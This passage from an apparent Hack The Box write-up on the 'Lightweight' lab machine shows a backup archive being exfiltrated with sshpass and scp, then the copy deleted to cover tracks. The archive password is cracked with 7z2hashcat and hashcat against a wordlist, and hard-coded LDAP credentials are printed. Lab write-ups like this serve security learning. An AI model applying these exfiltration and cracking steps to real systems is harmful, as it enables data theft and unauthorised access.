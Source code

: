 #### 3.1. Backup exfil
```
[ldapuser2@lightweight ~]$ cp backup.7z /tmp/.backup.7z
# sshpass -p'lightweight#!_is_my_hero' scp 10.10.14.11@10.10.10.119:/tmp/.backup.7z .
[ldapuser2@lightweight ~]$ rm /tmp/.backup.7z
```


#### 3.2. Archive is password protected
```
# mkdir xxx && mv .backup.7z xxx && cd xxx
# 7z e .backup.7z

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i7-2620M CPU @ 2.70GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 3411 bytes (4 KiB)

Extracting archive: .backup.7z
--
Path = .backup.7z
Type = 7z
Physical Size = 3411
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1


Enter password (will not be echoed):
```


#### 3.3. 7z cracking via `7z2hashcat`
```
# git clone https://github.com/philsmd/7z2hashcat && cd 7z2hashcat
# apt-get install liblzma-dev -y && cpan Compress::Raw::Lzma
# ./7z2hashcat.pl ../.backup.7z > ../backup_7z.hash && cd ..
# hashcat -a 0 -m 11600 backup_7z.hash /tmp/rockyou-35.txt
```
Note: password is `delete`


#### 3.4. Archive goodies

PHP files:
```
# ls *.php
index.php  info.php  reset.php  status.php  user.php
```

Hard-coded credentials:
```php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
```
